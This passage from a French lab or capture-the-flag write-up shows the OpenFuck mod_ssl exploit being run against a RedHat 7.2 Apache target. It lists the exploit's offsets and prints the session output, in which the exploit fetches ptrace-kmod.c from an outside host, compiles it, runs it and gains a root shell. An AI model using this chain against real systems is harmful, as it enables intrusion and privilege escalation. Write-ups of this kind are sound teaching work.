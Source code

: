 La librairie openssl étant ce que l'on connaît, les exploits de l'époque ne se compilent pas avec la version actuelle de la librairie.  

On trouve tout de même [un article de blog](https://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/) expliquant comment mettre à jour le code de *OpenFuck*.  

Une fois cette étape passée, l'exploit a deux offsets correspondant à la distribution du challenge :  

```plain
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```

L'exploitation fonctionne sans problèmes :  

```plain
$ ./OpenFuck 0x6b 192.168.1.104

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc080
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
--14:22:23--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--14:22:23--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

14:22:24 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 15397
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
